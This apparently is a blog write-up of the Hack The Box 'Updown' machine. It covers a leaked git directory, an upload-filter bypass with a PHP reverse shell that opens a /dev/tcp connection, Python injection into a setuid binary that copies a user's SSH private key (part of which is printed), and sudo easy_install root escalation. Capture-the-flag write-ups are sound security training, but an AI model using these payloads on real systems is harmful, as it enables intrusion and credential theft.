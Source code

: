 # Updown -Hack The Box


## Summary

Starting with a leaky local git directory from the siteisup.htb server, which led to accessing another subdomain. It has a development feature where we can upload files. From there, we can bypass the upload restriction with the phar file and upload a PHP reverse shell with the php proc_open function. after gaining a foothold In the user's home directory, we discovered a custom setuid binary that allowed us to gain more privileged access to the server. Take the ssh shell and abuse the sudo command to escalate privileges.

## Recon

### Nmap
Starting wtih nmap port scan
```bash
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
```
We can see two usual ports are open also i did a full port scan their is nothing much intertesting.	

Connecting to port 80

![image](/img/updown-web.png)
We can see from the above picture it is a site that checks to see if a website is up or down also it reveal the hostname siteisup.htb

Run a feroxbuster scan to fuzz the hidden diretory's we can found /dev and it's sub diretory /.git.

### Git
wget recursively downloaded the directory to our local machine.

```bash
Git branch -a
Git log main
commit 8812785e31c879261050e72e20f298ae8c43b565
Author: Abdou.Y <84577967+ab2pentest@users.noreply.github.com>
Date:   Wed Oct 20 16:38:54 2021 +0200

    New technique in header to protect our dev vhost.

git show 8812785e31c879261050e72e20f298ae8c43b565
commit 8812785e31c879261050e72e20f298ae8c43b565
Author: Abdou.Y <84577967+ab2pentest@users.noreply.github.com>
Date:   Wed Oct 20 16:38:54 2021 +0200

    New technique in header to protect our dev vhost.

diff --git a/.htaccess b/.htaccess
index 44ff240..b317ab5 100644
--- a/.htaccess
+++ b/.htaccess
@@ -2,3 +2,4 @@ SetEnvIfNoCase Special-Dev "only4dev" Required-Header
 Order Deny,Allow
 Deny from All
 Allow from env=Required-Header
```

Exploring the local git directory, which has only one branch, main, we checked every entry in the change log for main and found an interesting commit message."new technique in headers to protect our development vhost" Using the git show command, we can see the changes in this commit. It has another juicy piece of information to access the domain: a custom header, "Special-Dev: only4dev."From all of these details, we can understand that siteisup.htb has a vhost named "dev" and that it only has access via the custom header. We can also fuzz the subdoamin using ffuf to reveal the subdoamin.

### Developers site   
Adding dev.siteisup.htb to host file and the help of burpsuite match and replace option to add the coustom header we can opened the dev site.
![image](/img/updown-dev.png)

It seems that we can upload files to check if the website is up or down. To test the upload functions, I created a txt file with my tun0 interface IP. When we upload the file, it goes to the /uploads directory and is named with the MD5 hash. It was also removed after it was checked.

Upload directory
![image](/img/updown-hash.png)   

Our uploaded file
![image](/img/updown-ourfile.png)

Also, I tried to upload a php file, but it was failed due to some fillers. We got the response, "Extension not allowed!"

## Foothold

what we can do is we need to bypass the fillers and upload a php file to gain code execution.I tried some other extensions like phtml, php5-7, phar and Phar I got worked up. To see what functions are available, I uploaded the phar file and used the phpinfo function. Unfortunately, normal system functions are disabled expect "proc_open".


Created a revershell with proc_open
```php
<?php

$descriptorspec = array(
  0 => array("pipe", "r"),
  1 => array("pipe", "w"),
  2 => array("file", "/tmp/error-output.txt", "a")
);
$process = proc_open("cat", $descriptorspec, $pipes);
if (is_resource($process)) {

  fwrite($pipes[0], 'echo "bash -i >& /dev/tcp/ip/port 0>&1 " > /tmp/shell.sh | chmod 777 /tmp/shell.sh | sh /tmp/shell.sh');
   /* fwrite writes to stdin, 'cat' will immediately write the data from stdin
   * to stdout and blocks, when the stdout buffer is full. Then it will not
   * continue reading from stdin and php will block here.
   */
  fclose($pipes[0]);
  while (!feof($pipes[1])) {
      $out .= fgets($pipes[1], 1024);
  }
  fclose($pipes[1]);
  $return_value = proc_close($process);
}
?>
```
Referance [http://www.navioo.com/php/docs/function.proc-open.php](http://www.navioo.com/php/docfunction.proc-open.php)

### Shell as www-data

Upload the phar file and got the shell.

![image](/img/updown-shell.png)

Also i created python script to automated these foothold step.   
here is the github link [https://gist.github.com/akhils911dev/b85ee0c853bb91625f81665a6e753e84](https://gist.github.com/akhils911dev/b85ee0c853bb91625f81665a6e753e84)


### www-data to developer

we found a coustom setuid binary from /dev directory of user developer home. which belongs with to a python script called siteisup_script.py.

```bash
 ls -la
total 32
drwxr-x--- 2 developer www-data   4096 Jun 22  2022 .
drwxr-xr-x 6 developer developer  4096 Aug 30 11:24 ..
-rwsr-x--- 1 developer www-data  16928 Jun 22  2022 siteisup
-rwxr-x--- 1 developer www-data    154 Jun 22  2022 siteisup_test.py
```
siteisup.py
```bash
www-data@updown:/home/developer/dev$ cat siteisup_test.py 
import requests

url = input("Enter URL here:")
page = requests.get(url)
if page.status_code == 200:
        print "Website is up"
else:
        print "Website is down"
```
By examining the Python script, we can see that it uses our input as an url to determine whether the site is up or down. abusing this to inject Python system code to take the id_rsa of the developer.

Payload 
```python
__import__("os").system("cat /home/developer/.ssh/id_rsa > /tmp/key")
```
Executing the setuid binary with our payload
```bash
www-data@updown:/home/developer/dev$ ./siteisup
Welcome to 'siteisup.htb' application

Enter URL here:__import__("os").system("cat /home/developer/.ssh/id_rsa > /tmp/key")

www-data@updown:/home/developer/dev$ head /tmp/key 
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAmvB40TWM8eu0n6FOzixTA1pQ39SpwYyrYCjKrDtp8g5E05EEcJw/
S1qi9PFoNvzkt7Uy3++6xDd95ugAdtuRL7qzA03xSNkqnt2HgjKAPOr6ctIvMDph8JeBF2
F9Sy4XrtfCP76+WpzmxT7utvGD0N1AY3+EGRpOb7q59X0pcPRnIUnxu2sN+vIXjfGvqiAY
ozOB5DeX8rb2bkii6S3Q1tM1VUDoW7cCRbnBMglm2FXEJU9lEv9Py2D4BavFvoUqtT8aCo
srrKvTpAQkPrvfioShtIpo95Gfyx6Bj2MKJ6QuhiJK+O2zYm0z2ujjCXuM3V4Jb0I1Ud+q
a+QtxTsNQVpcIuct06xTfVXeEtPThaLI5KkXElx+TgwR0633jwRpfx1eVgLCxxYk5CapHu
u0nhUpICU1FXr6tV2uE1LIb5TJrCIx479Elbc1MPrGCksQVV8EesI7kk5A2SrnNMxLe2ck
IsQHQHxIcivCCIzB4R9FbOKdSKyZTHeZzjPwnU+FAAAFiHnDXHF5w1xxAAAAB3NzaC1yc2
www-data@updown:/home/developer/dev$
```
We can now see our code is successfully executed and it copy the developers id_rsa to /tmp

## SSH as developer

Copy the key to our local machine and connected through ssh

```bash
developer@updown:~$ id && whoami
uid=1002(developer) gid=1002(developer) groups=1002(developer)
developer
developer@updown:~$ ls
dev  user.txt
developer@updown:~$ 
```
## Privilege escalation

It is the most easiast part of this machine. Just check to see what we can run as sudo. We can run easy_install as root.

```bash
developer@updown:~$ sudo -l
Matching Defaults entries for developer on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User developer may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/local/bin/easy_install
```

With the help of [GTFobins](https://gtfobins.github.io/gtfobins/easy_install/#sudo) we can abuse this binary to get the root access.

```bash
developer@updown:~$ sudo /usr/local/bin/easy_install ^C
developer@updown:~$ TF=$(mktemp -d)
developer@updown:~$ echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
developer@updown:~$ sudo /usr/local/bin/easy_install $TF
WARNING: The easy_install command is deprecated and will be removed in a future version.
Processing tmp.zMbAjkFXvF
Writing /tmp/tmp.zMbAjkFXvF/setup.cfg
Running setup.py -q bdist_egg --dist-dir /tmp/tmp.zMbAjkFXvF/egg-dist-tmp-AIs2rL
# id
uid=0(root) gid=0(root) groups=0(root)
```
Now we get the root access.

Thank you for reading my blog; I hope you enjoyed it.

